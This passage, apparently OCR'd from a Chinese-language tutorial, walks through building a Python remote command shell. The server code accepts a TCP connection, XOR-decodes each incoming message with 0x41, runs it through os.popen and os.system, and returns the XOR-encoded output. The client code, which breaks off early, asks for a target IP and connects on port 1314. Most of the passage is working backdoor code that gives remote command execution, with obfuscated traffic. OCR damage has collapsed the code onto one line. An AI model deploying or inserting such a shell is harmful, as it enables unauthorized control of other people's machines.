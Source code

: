 ```
#被动的接受TCP客户端的连接,返回来的是一个元组，第一个元素是对方连接设置的各种信息，给c_sock，#第二个元素则是目标ip和目标通过那个端口过来的c_sock,caddr = s_sock.accept()#将ip和端口分别给一个变量ip,port = caddr;print('%s connection....'%(ip));#死循环while True:    try:        #接受客户端发来的消息,最大数据量为bufsize变量的值        data = c_sock.recv(bufsize);    except:        #如果出现异常就关闭连接，结束循环        c_sock.close();        break;    #使用bytearray函数，将收到的数据（data）转换为一个字节数组，并且是可以修改的,给变量ceshi    ceshi = bytearray(data);    #判断数组的长度,作为终值，因为终值是小于，而且是从0开始所以刚刚好    for i in range(len(ceshi)):        #此处就是进行一个异或等于xxx,等同于ceshi[i] = ceshi[i] ^ 0x41        #按位异或运算符：当两对应的二进位相异时，结果为1,它会将两边元素转换为二进制然后运算        # 0和1为1，0和0为0，1和1为0，1和0为1，也就是转换为二进制比较时候，不一样就为1，一样就是0        ceshi[i] ^= 0x41;    #decode方法的语法：str.decode(encoding='UTF-8',errors='strict')    #decode() 方法以 encoding指定编码格式来解码字符串。默认编码为字符串编码。    values = ceshi.decode();    #如果客户端发来的消息是quit，就会返回一个True给stop，不等于则返回一个False    stop = values == 'quit' or values == 'exit';    #如果发来的是quit或者exit，就结束循环    if stop:        break;    #popen()方法语法格式：os.popen(command[, mode[, bufsize]]),command -- 使用的命令。mode -- 模式权限可以是 'r'(默认) 或 'w'    #bufsize -- 指明了文件需要的缓冲大小：0意味着无缓冲；1意味着行缓冲；其它正值表示使用参数大小的缓冲    #大概值，以字节为单位）。负的bufsize意味着使用系统的默认值，一般来说，对于tty设备，它是行缓冲；    #对于其它文件，它是全缓冲。如果没有改参数，使用系统的默认值。    #返回值为：execution succeed,中文意思是执行成功    value = os.popen(values);    #system方法，会将字符串转换成命令来执行,返回值为0，表示执行成功，返回其他的则表示失败    fh = os.system(values);    #判断执行成功没有    if fh == 0:        #调用read方法读取value的内容        value = value.read()        #如果读取的值为空，取反为真，如果读取不为空，取反为假,也就是如果是空的就给他一个字符串，如果不是空的就不用        if not value:            value = 'execution succeed';    #如果fh等于32512就提示,找不到命令    elif fh == 32512:        value = 'sh: %s: command not found'%(values);    #再次调用bytearray方法，将value转换为一个字节数组，指定使用utf-8编码    hehe = bytearray(value,'utf-8');    #将编码的数据进行异或加密    for i in range(len(hehe)):        hehe[i] ^= 0x41;    #使用send方法发送给客户端    c_sock.send(hehe);#内部循环结束的话就关闭这个连接c_sock.close();
```

#### 关闭连接

s_sock.close();

0x02: 客户端部分
-----------

客户端去连接服务端，然后把命令发给服务端，接收服务端返回的数据，在通过异或，将其还原成明文打印出来，也可以不使用这种，而直接用 base64，等其他加密，这里使用异或所以要将数据先转换成字节数组

然后一个一个字符的加密，如果使用 base64 等加密，则可以不转换成数组，直接加密一整句

这里因为要告诉服务端，我们退出了，所以需要在发送数据后判断是否退出，

因为发送的数据是加密后的，所以我们直接用未加密前的来判断，如果是退出，就结束循环关闭连接  

客户端
===

import socket  
import os

#### 输入目标地址

Host = input(‘input server ip: ‘);

##### 如果输入为空，那就设置为本地回环地址

if not Host:  
Host = ‘127.0.0.1’;

##### 连接的端口，注意是服务开启的端口才行，因为是我们过去连目标的 ip 和端口

Port = 1314;
